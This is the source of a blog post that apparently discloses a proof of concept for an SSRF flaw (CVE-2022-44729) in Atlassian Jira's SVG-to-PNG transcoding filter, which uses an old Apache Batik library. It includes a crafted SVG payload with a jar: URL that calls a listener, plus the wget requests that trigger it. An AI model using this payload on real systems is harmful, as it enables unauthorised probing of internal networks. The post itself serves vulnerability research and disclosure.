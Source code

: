```yaml
---
layout: post
title:  "CVE-2022-44729 Atlassian Jira SSRF due to Apache Batik vulnerabilites"
datetime: 2024-01-18 17:45:00 MET
last_modified_at: 2024-01-18 17:45:00 MET
author: 'psytester'
---
```


[AtlassianSecurity Bulletin - January 16 2024](https://confluence.atlassian.com/security/security-bulletin-january-16-2024-1333335615.html) points to some 3rd-party updates, e.g. CVE-2022-44729 in Apache Batik with an SSRF issue.<br>

Ok, take a closer look. Ohh! There are a lot of SSRF issues in [Batik vulnerability advisory.](https://xmlgraphics.apache.org/security.html)<br>
I found a write-up at [zerodayinitiative blog.](https://www.zerodayinitiative.com/blog/2022/10/28/vulnerabilities-in-apache-batik-default-security-controls-ssrf-and-rce-through-remote-class-loading) from Piotr Bazydło in Oct. 2022. Great details, thank you for that.<br>

As today, Batik 1.17 was released at 2023-08-22 and e.g. Jira V9.4.11 from October 2023 still contains Batik version 1.14 from 2021-01-20.

Long Jira research, short goal:<br>
There is an AvatarTranscoder.class, which uses Apache Batik, but don't get confused about "Avatar". Due to the fact, that Jira user avatar or issue type can't be a SVG, this is not usable.<br>

There are three classes which are using AvatarTranscoder:
```
com.atlassian.jira.component.pico.registrar.ContainerRegistrar
com.atlassian.jira.mail.util.MailAttachments
com.atlassian.jira.web.filters.SvgToPngTranscoderFilter
```

I was not able to setup a mail notification which includes the issue attachement.content, because Jira does not support it.
No avatar nor icon SVG, no mail attachement.<br>
Time for frustration.

Back on track, why do they offer SvgToPngTranscoderFilter.class and what is it doing?
```
  private boolean needsTranscoding(HttpServletRequest request) {
    if (request.getServletPath().endsWith(".svg")) {
      String format = request.getParameter("format");
      return (StringUtils.isNotBlank(format) && "PNG".equals(format.toUpperCase()));
    } 
    return false;
  }
```

Checking they /opt/atlassian/jira/atlassian-jira/WEB-INF/web.xml
```
    <filter>
        <filter-name>svg-to-png-transcoder</filter-name>
        <filter-class>com.atlassian.jira.web.filters.SvgToPngTranscoderFilter</filter-class>
    </filter>
    ....
   <filter-mapping>
        <filter-name>svg-to-png-transcoder</filter-name>
        <url-pattern>/images/*</url-pattern>
    </filter-mapping>
```

Login into Jira page, there are some SVG images located in `/images/`<br>
`wget http://localhost:8080/images/jira-software.svg`
```
....
Länge: 9743 (9,5K) [image/svg+xml]

cat jira-software.svg
<?xml version="1.0" encoding="UTF-8"?>
<svg width="158px" height="30px" viewBox="0 0 158 30" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
```

I'm excited when it's what I think it is by using query parameter "?**format=png**"<br>

`wget http://localhost:8080/images/jira-software.svg?format=png`<br>
`cat jira-software.svg\?format\=png`<br>
```
�PNG
```

Ok, the SVG was converted to PNG :-)

Placing my SSRF SVG image on the server, for this simple PoC it needs to be located in `/opt/atlassian/jira/atlassian-jira/images/`<br>

cat /opt/atlassian/jira/atlassian-jira/images/SSRF.svg
```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="450" height="500" viewBox="0 0 450 500">
    <image width="50" height="50" xlink:href="jar:http://localhost:4242/poc?poc=poc!/"></image>
</svg>
```

`wget http://localhost:8080/images/SSRF.svg?format=png`<br>

**BINGO!**

If host and port is not reachable, there will be an immediate HTTP 500 error.
Otherwise it depends. My remote netcat listener keeps open the connection.

![Screens Gif showing the SSRF](https://psytester.github.io/images/CVE-2022-44729_Batik_SSRF_Atlassian_Jira_SSRF.gif)


Thank you for reading. The Batik vulnerabilites CVEs are not my credit, but the work on the PoC exploit in Jira is powered by psytester, this post was only for my private fun. ;-)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2024 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
